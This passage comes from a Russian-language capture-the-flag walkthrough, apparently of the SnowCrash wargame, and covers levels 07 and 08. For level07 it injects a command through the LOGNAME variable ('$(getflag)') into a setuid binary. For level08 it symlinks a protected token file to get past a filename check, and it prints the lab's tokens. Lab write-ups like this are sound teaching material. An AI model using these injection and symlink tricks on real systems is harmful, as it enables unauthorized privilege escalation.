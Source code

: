 ```sh
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
```
getenv("LOGNAME") = "level07" \
Значит:
```sh
export LOGNAME='$(getflag)'
./level07 
# ||
# \/
# Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

su level08 fiumuikeil55xe9cu4dood66h
```

#
###### [вернуться к содержанию](#content)
<a name="lvl08"></a> 
# level08

Проверяю содержимое директории:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
# -rw-------  1 flag08  flag08    26 Mar  5  2016 token

./level08 
# ||
# \/
# ./level08 [file to read]

./level08 token 
# ||
# \/
# You may not access 'token'

```
1 . простой путь
```sh
ls -la
# ||
# \/
# drwxrwxrwx+ 1 level08 level08  160 Feb  8 11:50 .

chmod 777 .

ln -s token tkn

./level08 tkn
# ||
# \/
# quif5eloekouj29ke0vouxean
su flag08 quif5eloekouj29ke0vouxean

getflag
# ||
# \/
# Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

```